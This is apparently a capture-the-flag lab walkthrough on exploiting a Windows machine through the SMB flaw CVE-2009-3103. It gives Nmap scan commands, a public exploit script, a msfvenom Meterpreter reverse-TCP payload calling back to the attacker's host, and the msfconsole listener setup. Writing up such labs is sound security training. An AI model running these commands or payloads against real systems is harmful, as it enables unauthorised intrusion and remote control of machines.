


# Recon
## Nmap
```
nmap -sC -sV 192.168.229.46
```


There are several ports open on the machine, including http, smb etc.

### HTTP
Going to the url shows a service unavailable


### SMB
Next port to look at would be SMB (139,445)
- lets run the NSE vulnerability enumeration scripts for SMB 
```
nmap --script smb-vuln* -p 139 192.168.229.40
```


The results show that the machine is vulnerable to CVE-2009-3103.

# Exploitation
Searching for this exploit proof of concept reveals the script [here](https://github.com/kashif-23/modified-public-exploits/blob/main/40820-exploit-cve-2009-3103-python3.py)
- I downloaded the script and tried to see if it would execute, however, I was getting a smb module not found. I fixed that by running the following command for python3
```
pip3 install pysmb
```

Now, the script states to create a msfvenom payload and replace the `shell` variable
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.230 LPORT=443 EXITFUNC=thread -f python
```


The command outputs the result in a `buf` variable
- to automate changing the variable to shell, I copied the results into a file called `shellcode` and ran the following `sed` command
```
sed -i 's/buf/shell/g' shellcode
```


Copy and replace the output into the python script
- before running script, start a meterpreter listener 

```
msfconsole -q
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.45.230
set LPORT 443
run
```

Then run the python script
```
python3 40820-exploit-cve-2009-3103-python3.py 192.168.229.40
```


The flag is on the desktop for the administrator user `C:\Users\Administrator\Desktop`.
- use the command `sessions -i 1` then `shell` to get a command shell on the system

# Summary
Reconnaissance:
- Used Nmap to scan the target machine (192.168.229.46), revealing open ports including HTTP and SMB

HTTP Service:
- Attempted to access the HTTP service but found it to be unavailable

SMB Service:
- Focused on the SMB service running on ports 139 and 445
- Ran Nmap NSE vulnerability enumeration scripts for SMB, identifying vulnerability to CVE-2009-3103

Exploitation:
- Found a proof of concept exploit script for CVE-2009-3103
- Installed the required pysmb library for Python3 to resolve the "smb module not found" issue
- Created a msfvenom payload and replaced the shell variable in the exploit script
- Started a Meterpreter listener using msfconsole with appropriate settings
- Executed the modified Python script to exploit the vulnerability and gain access to the target machine

Post-Exploitation:
- Located the flag on the desktop for the Administrator user at C:\Users\Administrator\Desktop

Join me for the next machine soon for more exciting challenges and security insights!

+10 points